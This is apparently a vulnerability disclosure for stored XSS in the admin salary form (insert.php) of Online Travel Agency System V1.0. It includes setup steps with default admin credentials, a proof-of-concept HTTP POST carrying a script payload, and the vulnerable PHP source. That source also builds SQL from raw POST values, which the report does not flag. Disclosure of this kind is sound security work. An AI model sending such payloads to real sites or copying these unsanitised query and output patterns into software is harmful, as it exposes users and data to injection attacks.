


# [Online Travel Agency System-File upload vulnerabilities-insert.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:**Online Travel Agency System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** `http://10.151.222.198/Travel/admin/insert.php`

**[Vulnerability Location]:** /Travel/admin/insert.php

**[Vulnerability Test]:**

1. View http://10.151.222.198/Travel/admin/salary1.php, Insert the XSS payload in **"Description"**.

   

2. After clicking the submit button, the update is successful and the XSS payload is successfully stored in the database.

   ```bash
   POST /Travel/admin/insert.php HTTP/1.1
   Host: 10.151.222.198
   Content-Length: 106
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.151.222.198
   Content-Type: application/x-www-form-urlencoded
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.151.222.198/Travel/admin/salary1.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=86dm5d6ncj5mk3db07gti39pb4
   Connection: close
   
   employee=Haqdost&month=jan&amount=55&description=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&salaryform=submit
   ```

3. Visit `http://10.151.222.198/Travel/admin/salary_view_all.php`, and a pop-up window appears.

   

   

**[code analysis]:**

/Travel/admin/insert.php

```php
<?php //insertion in salary form

if(isset($_POST["salaryform"]))
{
	
	$employee=$_POST["employee"];
  $month=$_POST["month"];
  $amount=$_POST["amount"];
  $description=$_POST["description"];
 $sql="insert into salary(employee,month,amount,description,inserted_by)values('$employee','$month','$amount','$description','$user')";
 $result=mysqli_query($con,$sql) or die(mysqli_error($con));
 
 $salary_id=getMaxID('salary_id','salary');

 insertCash($amount,"Cr",$description);
 
 $maxCashID=getMaxID('cashID','cash');
 mysqli_query($con,"INSERT INTO transaction(cashID,salaryID) VALUES ('$maxCashID', '$salary_id')" ) or die("Error in salary Query :: ".mysqli_error($con));
 
 if($result)
	{ echo"data is inserted successfully";
	header('location:salary_view_all.php');
	}
	else
	{ echo "error occured";
	}
 
}
?>
```

When the **description** parameter value in the POST is obtained, it is stored in the database without any filtering, resulting in stored XSS.

/Travel/admin/salary_view_all.php

```php+HTML
 <?php 
  $sql="select*from salary";
  $result=mysqli_query($con,$sql) or die(mysqli_error($con));
  if(mysqli_num_rows($result)<1)
  {
	  echo"<script type='text/javascript'>alert('No Salary found');
	  document.location='employee_view.php'</script>";
	 
  }
  while($row=mysqli_fetch_array($result))
  {
	  $salary_id=$row["salary_id"];	 	 	 	 	 	 		 
	  $month=$row["month"];
 	  $amount=$row["amount"];
 	  $description=$row["description"];
	   $employee=$row["employee"];
	    $date=$row["date"];
	    $inserted_by=$row["inserted_by"];
	 
	 
  ?>

<td><?php       echo $description; ?></td>
```

And the output is made in the page.